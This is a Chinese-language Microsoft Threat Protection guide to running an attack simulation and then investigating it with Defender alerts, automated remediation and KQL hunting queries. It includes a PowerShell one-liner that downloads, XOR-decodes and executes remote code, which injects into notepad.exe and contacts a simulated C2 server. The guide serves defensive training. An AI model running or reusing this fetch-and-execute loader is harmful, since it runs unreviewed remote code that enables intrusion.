

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>运行 Microsoft 威胁防护攻击模拟  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**适用于：**
- Microsoft 威胁防护
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>制定 </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>份 </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>模拟攻击 </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>结束和汇总 </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

你目前正在攻击模拟阶段。

准备好试点环境后，可以测试 Microsoft 威胁防护事件管理和自动调查和修正功能。 我们将帮助您模拟一种复杂的攻击，利用从检测中隐藏的高级技术。 攻击在域控制器上枚举打开的服务器消息块 (SMB) 会话，并检索用户设备的最近 IP 地址。 这种类型的攻击通常不包括在受攻击者的设备上丢弃的文件，它们仅发生在内存中。 它们通过使用现有的系统和管理工具并将其代码注入系统进程以隐藏其执行，从而使其避开检测并在设备上持续存在，从而 "实时脱离土地"。

在此模拟中，我们的示例方案从 PowerShell 脚本开始。 用户可能会欺骗运行脚本。 或者，该脚本可能从以前受感染的设备的远程连接到另一台计算机，攻击者试图在网络中移动横向。 由于管理员通常会远程运行脚本来执行各种管理活动，因此检测到这些脚本可能很困难。


在模拟过程中，攻击会将外壳代码注入到看似合法的过程中。 在这种情况下，我们将使用 notepad.exe。 我们为模拟选择了此过程，但攻击者更有可能将系统视为长时间运行的系统进程，如 svchost.exe。 然后，代码管理代码会继续联系攻击者的命令和控件 (C2) server，以获取有关如何继续的说明。 此外，该脚本会尝试针对域控制器执行针对域控制器的侦测查询 (DC) 。 这使得攻击者能够获取有关最近用户登录信息的信息。 一旦攻击者拥有这些信息，就可以在网络中横向移动以获取特定的敏感帐户

>[!IMPORTANT]
>为获得最佳结果，请尽可能严格遵循攻击模拟说明。


## <a name="simulation-environment-requirements"></a>模拟环境要求

由于你已在准备阶段配置了试点环境，因此请确保在此方案中有两个设备：测试设备和域控制器。

1.  验证你的租户是否已启用 microsoft 威胁 [防护](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)。

2.  验证测试域控制器配置：

    - 使用 Windows Server 2008 R2 或更高版本运行的设备。
    - 测试域控制器到 [Azure 高级威胁防护](https://docs.microsoft.com/azure/security-center/security-center-wdatp) 并启用 [远程管理](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。    
    - 验证 [AZURE ATP 和 Microsoft 云应用安全集成](https://docs.microsoft.com/cloud-app-security/aatp-integration) 是否已启用。
    - 在您的域中创建一个测试用户–不需要管理员权限。

3.  验证测试设备配置：
 
    1.  使用 Windows 10 版本1903或更高版本运行的设备。
    
    1.  测试设备已加入测试域。
    
    1.  [启用 Windows Defender 防病毒](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。 如果你在启用 Windows Defender 防病毒时遇到问题，请参阅此 [故障排除主题](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。
    
    1.  验证测试设备是否 [载入到 Microsoft Defender 高级威胁防护 (MDATP) ](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。

如果使用现有租户并实现设备组，请为测试设备创建专用设备组，并将其推送到配置 UX 中的顶层。


## <a name="run-the-simulation"></a>运行模拟

要运行攻击方案模拟，请执行以下操作：

1.  使用测试用户帐户登录到测试设备。

2.  在测试设备上打开 Windows PowerShell 窗口。

3.  复制以下模拟脚本：

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > 如果您在 web 浏览器上打开此文档，则在复制整个文本时可能会遇到问题，而不会丢失某些字符或引入额外的换行符。 下载此文档并在 Adobe Reader 中打开它。

4. 在提示符处，粘贴并运行复制的脚本。

>[!NOTE]
>如果使用远程桌面协议 (RDP) 运行 PowerShell，请使用 RDP 客户端中的 "键入剪贴板文本" 命令，因为在使用 **CTRL + V** 热键或右键单击-paste 方法时，可能不起作用。  最新版本的 PowerShell 有时也不会接受该方法，您可能需要先在内存中复制到记事本，在虚拟机中复制它，然后将其粘贴到 PowerShell 中。

稍后， <i>notepad.exe</i> 将会打开。 模拟的攻击代码将被注入 notepad.exe 中。 将自动生成的记事本实例保持打开状态，以体验完整方案。

模拟的攻击代码将尝试与外部 IP 地址进行通信， (模拟 C2 server) 然后尝试通过 SMB 针对域控制器进行侦测。

此脚本完成后，你将看到 PowerShell 控制台上显示一条消息。

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

若要查看活动的自动事件和响应功能，请保持 notepad.exe 过程处于打开状态。 你将看到自动化事件和响应停止了记事本进程。


## <a name="investigate-an-incident"></a>调查事件

>[!NOTE]
>在我们引导您完成此模拟之前，请观看以下视频，了解事件管理如何帮助您将相关警报作为调查过程的一部分在一起，在门户中找到相关警报，以及它如何帮助您完成安全操作：

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

切换到 SOC 分析师的观点，现在可以开始在 Microsoft 365 安全中心门户中调查攻击。 

1.  从任何设备打开 [Microsoft 365 安全中心门户](https://security.microsoft.com/incidents) 事件队列。

2.  从菜单中导航到 " **事件** "。 

    

3.  模拟攻击的新事件将显示在事件队列中。
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>将攻击调查为单个事件

Microsoft 威胁防护关联分析，并将来自不同产品的所有相关的警报和调查聚合到一个事件实体中。 通过执行此操作，Microsoft 威胁防护显示了更广泛的攻击情景，使 SOC 分析师能够理解并响应复杂的威胁。

此模拟过程中生成的警报与相同的威胁相关联，因此将自动聚合为单个事件。

要查看事件，请执行以下操作：

1.  导航到 " **事件** " 队列。
 
    

2.  通过单击事件名称左侧的圆圈选择最新的项目。 侧面板显示有关事件的其他信息，包括所有相关警报。 每个事件都有一个唯一的名称，它根据它包含的警报的属性对其进行描述。

    

    可以根据服务资源筛选仪表板中显示的警报： Azure ATP、Microsoft 云应用安全性、Microsoft Defender ATP、Microsoft 威胁防护和 Office ATP。  

3.  选择 " **打开事件" 页** ，以获取有关事件的详细信息。

    在 " **事件** " 页中，您可以查看与事件相关的所有警报和信息。 这包括警报中涉及的实体和资产、警报的检测源 (Azure ATP、EDR) 以及它们链接在一起的原因。 查看事件警报列表将显示攻击的进展情况。 在此视图中，你可以查看和调查各个通知。

    您还可以单击右侧菜单中的 " **管理事件** "、"将事件标记为"、"将其分配给自己" 和 "添加注释"。

    

    


### <a name="review-generated-alerts"></a>查看生成的警报 

让我们来看看在模拟攻击过程中生成的一些警报。

>[!NOTE]
>我们将只经历在模拟攻击过程中生成的几个警报。 根据在测试设备上运行的 Windows 和 Microsoft 威胁防护产品的版本，您可能会看到更多以略有不同的顺序显示的警报。

 


**警报：已观察到可疑进程注入 (源： Microsoft Defender ATP EDR) **

高级攻击者使用复杂且 stealthy 的方法来保留在内存中，并从检测工具中隐藏。 一种常见的技术是在受信任的系统进程中运行，而不是恶意的可执行文件，从而使检测工具和安全操作难以发现恶意代码。

为了让 SOC 分析师能够捕获这些高级攻击，Microsoft Defender ATP 中的深度内存传感器提供了我们的云服务，具有前所未有的跨进程代码注入技术的可见性。 下图显示了在尝试插入代码以 <i>notepad.exe</i>时，MICROSOFT Defender ATP 如何检测和收到警报。

 


**警报：进程在不使用任何命令行参数的情况运行时观察到的意外行为 (源： Microsoft Defender ATP EDR) **

Microsoft Defender ATP 检测通常针对攻击技术的最常见属性。 这样可确保持续性并提高攻击者切换到较新策略的这一栏。

我们采用大规模学习算法来建立组织和全球范围内的常见流程的正常行为，并在这些流程表现出异常行为时进行监视。 这些反常行为通常表示引入了无关的代码并在其他受信任的进程中运行。

在这种情况下，进程 <i>notepad.exe</i> 表现为异常行为，涉及与外部位置的通信。 此结果与用于引入和执行恶意代码的特定方法无关。

>[!NOTE]
>由于此警报是基于需要其他后端处理的机器学习模型，因此可能需要一段时间才能在门户中看到此警报。

请注意，警报详细信息包括外部 IP 地址（一个指示器，可用作透视以展开调查）。

单击警报进程树中的 IP 地址以查看 "IP 地址详细信息" 页。

 

下图显示了 "选定的 IP 地址详细信息" 页 (单击警报进程树中的 "IP 地址") 。


**警报：用户和 IP 地址侦测 (SMB)  (源： Azure ATP) **

使用服务器消息块 (SMB) 协议进行枚举使攻击者能够获取最新的用户登录信息，以帮助他们通过网络进行横向移动以访问特定的敏感帐户。

在此检测中，当对域控制器运行 SMB 会话枚举时，将触发警报。

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>查看设备时间线 [Microsoft Defender ATP]
在探索了此事件中的各种警报后，再导航回之前调查的 "事件" 页。 单击 "事件" 页中的 " **设备** " 选项卡，查看在 MICROSOFT Defender ATP 和 Azure atp 报告的此事件中涉及的设备。

单击执行攻击的设备的名称，以打开该特定设备的实体页面。 在该页面中，可以看到已触发的警报和相关事件。

单击 " **时间线** " 选项卡以打开设备时间线，并按时间顺序查看设备上观测到的所有事件和行为，并与触发的警报交错。

 

扩展一些更有趣的行为可提供有用的详细信息，如进程树。

例如，向下滚动，直到发现警报事件 **可疑进程注入被观测到**。 单击 " **powershell.exe 注入到** 它下面的 notepad.exe 处理事件"，以在侧窗格上的 " **事件实体** " 图中显示此行为的完整进程树。 如有必要，请使用搜索栏进行筛选。


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>查看用户信息 [Microsoft Cloud App Security]

在 "事件" 页上，单击 " **用户** " 选项卡以显示攻击涉及的用户列表。 该表包含有关每个用户的其他信息，包括每个用户的 **调查优先级** 分数。

单击用户名可打开用户的配置文件页面，可以在其中执行进一步调查。 [阅读有关调查有风险的用户的详细信息](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)。
<br>


## <a name="automated-investigation-and-remediation"></a>自动调查和修复
>[!NOTE]
>在我们引导你完成此模拟之前，请观看以下视频，了解自动自我修复的内容、在门户中的何处以及它如何在你的安全操作中提供帮助：

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

导航回 Microsoft 365 安全中心门户中的事件。 "**事件**" 页面中的 "**调查**" 选项卡显示由 Azure ATP 和 Microsoft Defender ATP 触发的自动调查。 下面的屏幕截图仅显示由 Microsoft Defender ATP 触发的自动调查。 默认情况下，Microsoft Defender ATP 将自动 remediates 在队列中找到的、需要修正的项目。


单击触发调查的警报以打开 **调查详细信息** 页面。 你将看到以下内容：
- 触发自动调查的警报 (s) 。
- 受影响的用户和设备。 如果在其他设备上发现指示器，则还会列出这些其他设备。
- 证据列表。 找到并分析的实体，如文件、进程、服务、驱动程序和网络地址。 将对这些实体进行分析，以了解与警报的关系，并将其评级为良性或恶意。
- 发现威胁。 在调查过程中发现的已知威胁。

>[!NOTE]
>自动调查可能仍在运行，具体取决于计时。 在收集和分析证据并查看结果之前，请等待几分钟完成此过程。 刷新 " **调查详细信息** " 页以获取最新结果。


在自动调查过程中，Microsoft Defender ATP 确定了 notepad.exe 过程，这是作为需要修正的项目之一注入的。 Microsoft Defender ATP 会在自动修正过程中自动停止可疑的过程注入。 

您可以从测试设备上的正在运行的进程列表中查看 <i>notepad.exe</i> 消失。

## <a name="resolve-the-incident"></a>解决事件

调查完成并确认为待修正后，请关闭事件。

单击 " **管理事件**"。 将状态设置为 " **解决事件** "，并选择相关的分类。

一旦事件得到解决，它将关闭 Microsoft 365 安全中心和相关门户中的所有关联警报。

 

<br>
这将封装针对事件管理和自动调查和修正方案的攻击模拟。 下一次模拟将为你获取潜在恶意文件的主动威胁搜索。 

## <a name="advanced-hunting-scenario"></a>高级搜寻方案

>[!NOTE]
>在我们引导你完成模拟之前，请观看以下视频，了解高级搜寻概念，了解在门户中可以找到它的位置，并了解如何帮助你完成安全操作：

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>求职环境要求
此方案需要一个内部邮箱和一个设备。 您还需要一个外部电子邮件帐户来发送测试邮件。

1.  验证你的租户是否已 [启用 Microsoft 威胁防护](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)。
2.  确定要用于接收电子邮件的目标邮箱。
    a.  此邮箱必须由 Office 365 ATP b 监视。  要求3中的设备需要访问此邮箱
3.  配置测试设备：。  请确保使用的是 Windows 10 版本1903或更高版本。
    b.  将测试设备加入测试域。
    c.  [启用 Windows Defender 防病毒](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。 如果你在启用 Windows Defender 防病毒时遇到问题，请参阅 [此故障排除主题](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。
    d.  [板载到 Microsoft Defender 高级威胁防护 (MDATP) ](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。

### <a name="run-the-simulation"></a>运行模拟
1.  从外部电子邮件帐户向 "测试环境要求" 部分的步骤2中标识的邮箱发送电子邮件。 包含将允许通过任何现有电子邮件筛选器策略的附件。  此文件不需要是恶意的或可执行文件。 建议的文件类型为 <i>.pdf</i>、 <i>.exe</i> (如果允许) 或 Office 文档（如 Word 文件）。
2.  按照 "测试环境要求" 一节的步骤3中的定义，打开配置为的设备发送的电子邮件。 打开附件或将文件保存到设备。


**"转到"**
1.  打开 security.microsoft.com 门户。

2.  导航到 " **> 高级搜寻**" 中的 "搜寻"。

     

3.  生成通过收集电子邮件事件开始的查询。

    1.  在查询窗格中，选择 "新建"。
    
    1.  在架构中，双击 "EmailEvents" 表。

        ```
        EmailEvents 
        ```                                        

    1.  将时间范围更改为最近24小时。 假定运行上述模拟时发送的电子邮件为过去的24小时，则更改时间范围。
    
         

    1.  运行查询。  你可能会有许多结果，具体取决于试点的环境。  

        > [!NOTE]
        > 有关筛选选项以限制数据返回的详细步骤，请参阅下一步。

         

        > [!NOTE]
        > 高级搜寻将查询结果显示为表格数据。 您还可以选择查看其他格式类型（如图表）中的数据。    

    1.  查看结果，并查看是否可以识别您打开的电子邮件。  最长可能需要2小时的时间才能在高级搜寻中显示邮件。 如果电子邮件环境很大且结果很多，则可能需要使用 " **显示筛选器" 选项** 来查找邮件。 

        在示例中，电子邮件是从 Yahoo 帐户发送的。 单击 **+** "SenderFromDomain" 部分下 " **yahoo.com** " 旁边的图标，然后单击 " **应用** " 将所选的域添加到查询中。  应使用在运行模拟以筛选结果的步骤1中用于发送测试邮件的域或电子邮件帐户。  再次运行查询以获取一个较小的结果集，以验证您是否可以从模拟中看到该消息。
   
         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  单击查询中的结果行，以便您可以检查记录。
   
         

4.  现在，您已经验证您可以看到电子邮件，添加了附件的筛选器。 将重点放在环境中具有附件的所有电子邮件上。 在这种情况下，重点关注的是入站电子邮件，而不是从您的环境发出的电子邮件。 删除您已添加的任何筛选器，以查找您的邮件并添加 "|其中， **AttachmentCount > 0**和**EmailDirection**  ==  **"Inbound" "**

    以下查询将向您显示结果与所有电子邮件事件的初始查询的列表相比：

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  接下来，包括有关附件的信息 (例如：文件名、哈希) 到结果集。 若要执行此操作，请加入 **EmailAttachmentInfo** 表。 用于加入的公共字段，在此示例中为 **NetworkMessageId** 和 **RecipientObjectId**。

    以下查询还包括其他行 "| **project-Rename EmailTimestamp = Timestamp**"，它将帮助识别与您将在下一步中添加的文件操作相关的电子邮件和时间戳相关的时间戳。

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  接下来，使用**EmailAttachmentInfo**表中的**SHA256**值查找该哈希的终结点) 上发生的**DeviceFileEvents** (文件操作。  此处的公共字段将成为附件的 SHA256 哈希。

    生成的表格现在包含来自终结点的详细信息 (Microsoft Defender ATP) 例如设备名称、在这种情况下 (执行了什么操作、筛选为仅包括 FileCreated 事件) 以及存储文件的位置。 此外，还将包括与进程关联的帐户名称。

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

    现在，您已创建一个查询，该查询将标识用户在其中打开或保存了附件的所有入站电子邮件。 您还可以优化此查询以筛选特定的发件人域、文件大小、文件类型等。

7.  函数是一种特殊的联接，可让您获取有关文件的更多 TI 数据，如文件的流行、签名者信息等。 若要获取有关该文件的更多详细信息，请使用 **FileProfile ( # B1 ** function 扩充：

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


**创建检测**

一旦创建了标识信息的查询，如果将来发生这些信息， **get alerted**就可以从查询中创建自定义检测。 

自定义检测将根据您设置的频率运行查询，并且查询的结果将根据所选的受影响的资产创建安全警报。 这些警报将与事件相关联，并且可以作为其中一个产品所生成的任何其他安全警报进行会审。

1.  在 "查询" 页上，删除 "转出说明" 的步骤7中添加的第7行和第8行，然后单击 " **创建检测规则**"。 
    
     

    > [!NOTE]
    > 如果单击 " **创建检测规则** " 并在查询中出现语法错误，则不会保存您的检测规则。 请仔细检查您的查询以确保没有错误。 


2.  填写必需的字段，其中包含的信息将允许安全团队了解警报、生成它的原因以及预期采取的操作。 

    

    确保明确填写字段，以帮助下一用户获得有关此检测规则警报的明智决策 

3.  选择此通知中受影响的实体。 在这种情况下，选择 " **设备** 和 **邮箱**"。

    
 

4.  确定触发警报时应进行的操作。 在这种情况下，请运行防病毒扫描，尽管可以执行其他操作。 

     

5.  选择警报规则的范围。 由于此查询涉及设备，因此设备组与此自定义检测（根据 Microsoft Defender ATP 上下文）相关。  在创建不包含受影响的实体的设备的自定义检测时，作用域不适用。  

     

    对于此试点，您可能希望将此规则限制为生产环境中的一小部分测试设备。

6.  选择 **“创建”**。 然后，从导航面板中选择 " **自定义检测规则** "。
 
     

     

    在此页面中，您可以选择将打开 "详细信息" 页的检测规则。 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a>其他高级的搜寻指导-通过练习

若要了解有关高级搜索的详细信息，下面的网络广播将指导您完成 Microsoft 威胁防护 (MTP) 中的高级搜索功能，以创建跨支柱查询、透视到实体并创建自定义检测项和修正操作。

>[!NOTE]
>请使用你自己的 GitHub 帐户进行准备，以在试点测试实验室环境中运行搜寻查询。  

|  标题  |  说明  |  下载文件关于  |  在 YouTube 上观看  |  要使用的 CSL 文件  |
|:-----|:-----|:-----|:-----|:-----|
| 剧集1： KQL 基础知识 | 我们将介绍 Microsoft 威胁防护中的高级搜寻功能的基础知识。 了解可用的高级搜寻数据和基本 KQL 语法和运算符。 | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [剧集1： Git 中的 CSL 文件](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| 剧集2：联接 | 我们将继续了解高级搜寻中的数据，以及如何将表格联接在一起。 了解内部、外部、唯一和半连接，以及默认 Kusto innerunique join 的细微差别。 | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [剧集2： Git 中的 CSL 文件](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| 剧集3：汇总、透视和可视化数据|现在，我们能够筛选、操作和加入数据，可以开始进行汇总、量化、透视和可视化。 在这一过程中，我们将介绍汇总运算符和一些可在高级搜寻架构中深入了解其他表时执行的计算。 我们将数据集转换为可帮助改进分析的图表。 | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [剧集3： Git 中的 CSL 文件](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| 剧集4：让我们来寻找！ 将 KQL 应用于事件跟踪|跟踪某些攻击者活动的时间！ 在这一段中，我们将利用我们对 Microsoft 威胁防护中的 KQL 和高级搜寻的改进理解来跟踪攻击。 了解字段中用于跟踪攻击者活动的一些提示和技巧，包括 cybersecurity 的 ABCs 以及如何将其应用到事件响应。 | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [剧集4： Git 中的 CSL 文件](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>后续步骤
| <br>[结束和摘要阶段](mtp-pilot-close.md) | 分析你的 Microsoft 威胁防护试点结果，向你的利益干系人呈现，并采取下一步行动。
|:-----|:-----|

